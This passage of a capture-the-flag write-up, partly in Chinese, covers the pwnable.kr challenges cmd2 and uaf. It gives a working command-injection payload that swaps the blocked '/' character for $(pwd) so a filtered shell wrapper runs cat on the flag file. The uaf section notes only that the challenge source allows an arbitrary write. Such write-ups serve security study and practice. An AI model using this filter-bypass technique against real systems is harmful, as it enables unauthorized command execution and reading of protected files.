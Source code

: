 >Problem Description:  
>Daddy bought me a system command shell.  
>but he put some filters to prevent me from playing with it without his permission...  
>but I wanna play anytime I want!  
>Address:  
>ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)  

相比 cmd1, 还过滤了 '/' 字符, 利用 pwd 绕过
```
$ /home/cmd2/cmd2 '""$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)f*""'
```

getflag~
![](/assets/img/writeup/2017-08-13-pwnable-writeup/0x015-001.png)


## 0x016 uaf

>Problem Description:  
>Mommy, what is Use After Free bug?  
>Address:  
>ssh uaf@pwnable.kr -p2222 (pw:guest)   

直接看源码, case2处能构造任意写